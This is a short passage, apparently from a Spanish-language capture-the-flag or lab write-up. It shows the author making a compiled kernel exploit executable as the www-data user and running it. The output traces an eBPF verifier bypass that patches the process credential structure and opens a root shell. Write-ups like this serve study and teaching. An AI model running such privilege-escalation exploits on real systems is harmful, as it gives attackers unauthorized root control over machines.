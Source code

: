 ```bash
www-data@ubuntu:/tmp$ chmod +x exploit
```

Ejecuto el exploit y escalo mis privilegios a root

```bash
www-data@ubuntu:/tmp$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880035aafc00
[*] Leaking sock struct from ffff880033d7ecc0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800350d6b40
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8800350d6b40
[*] credentials patched, launching shell...
# whoami
root
```
